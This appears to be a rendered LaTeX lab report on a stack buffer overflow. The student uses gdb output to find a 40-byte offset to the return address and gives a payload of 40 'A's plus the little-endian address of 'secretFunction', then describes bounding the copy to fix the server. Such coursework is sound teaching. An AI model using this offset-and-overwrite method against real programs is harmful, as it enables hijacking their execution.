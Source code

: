 \documentclass[11pt]{article}
\begin{document}
Looking at the last output, I found the value 0x400cd9 at the start of the line 0x7fffffffde98. Since the beginning of the buffer is at 0x7fffffffde70, there is a difference of 0x28 to fill between the beginning of the buffer and the start of the return address. This means that 40 characters need to be placed in the buffer before the return address can be altered.

\begin{itemize}
\item (gdb) disas secretFunction
\item
Dump of assembler code for function secretFunction:\\
   0x0000000000400e18 $<+0>$:	push   \%rbp\\
   0x0000000000400e19 $<+1>$:	mov    \%rsp,\%rbp\\
   0x0000000000400e1c $<+4>$:	mov    \$0x400fa8,\%edi\\
   0x0000000000400e21 $<+9>$:	callq  0x4008f0 <puts@plt>\\
   0x0000000000400e26 $<+14>$:	mov    \$0x1,\%edi\\
   0x0000000000400e2b $<+19>$:	callq  0x400a00 <exit@plt>\\
End of assembler dump.
\end{itemize}

This result showed me that the altered return address should be 0x400e18, which would have to be inputted backwards. All of this helped me create a string that would call the secretFunction:

\verb|AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x0e\x40\x00|

\pagebreak

\section{Modified Server Code}

In order to fix the buffer overflow vulnerability, I allowed only MAX\_DATA\_SIZE bytes to be copied into str. This means that if the user inputs a long string, only the characters that will fit without overwriting other data will be stored in str. This eliminates the risk of overwriting the return address and launching a buffer overflow attack on this server.

\vspace{1cm}


\end{document}
